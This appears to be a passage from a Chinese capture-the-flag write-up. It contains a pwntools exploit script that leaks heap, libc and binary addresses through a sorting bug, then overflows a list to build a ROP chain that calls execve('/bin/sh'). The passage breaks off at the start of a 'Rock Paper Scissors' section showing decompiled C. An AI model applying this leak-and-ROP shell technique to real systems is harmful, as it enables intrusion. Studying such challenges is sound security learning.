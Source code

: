 ```


p.sendlineafter("continue...", "\n")

sort(3, 1)
sort(3, 8)
sort(3, 4)
sort(5, 2)
sort(5, 7)
sort(6, 10)
sort(6, 9)

sort(1, 11)
p.recvuntil("1. ")
list_address = u64(p.recvline().strip().ljust(8, b"\x00")) - 0x150
log.success("list address is `{``}`".format(hex(list_address)))
sort(11, 1)
sort(1, 14)
p.recvuntil("1. ")
libc.address = u64(p.recvline().strip().ljust(8, b"\x00")) - 243 - libc.sym['__libc_start_main']
log.success("libc address is `{``}`".format(hex(libc.address)))
sort(14, 1)
sort(1, 18)
p.recvuntil("1. ")
elf.address = u64(p.recvline().strip().ljust(8, b"\x00")) - 0x139f
log.success("elf address is `{``}`".format(hex(elf.address)))
sort(18, 1)

p_rdi_r = 0x0000000000026b72 + libc.address
p_rsi_r = 0x0000000000027529 + libc.address
p_rdx_r12_r = 0x000000000011c371 + libc.address
yn_offset = int(((elf.address + 0x4030 - list_address) &amp; 0xffffffffffffffff) // 8) + 2
overflow(14, p_rdi_r)
overflow(15, libc.search(b"/bin/sh").__next__())
overflow(16, p_rsi_r)
overflow(17, 0)
overflow(18, p_rdx_r12_r)
overflow(19, 0)
overflow(20, 0)
overflow(21, libc.sym['execve'])
sort(1, 1, True)
p.interactive()
```



## Rock Paper Scissors

首先来看一下程序的整体逻辑

```
void real_main()
`{`
  unsigned int v0; // eax
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  int v2; // [rsp+8h] [rbp-8h]
  char v3; // [rsp+Fh] [rbp-1h]

  v3 = 1;
  v0 = time(0LL);
  srand(v0);
  while ( v3 )
  `{`
    v2 = rand() % 3 + 1;
```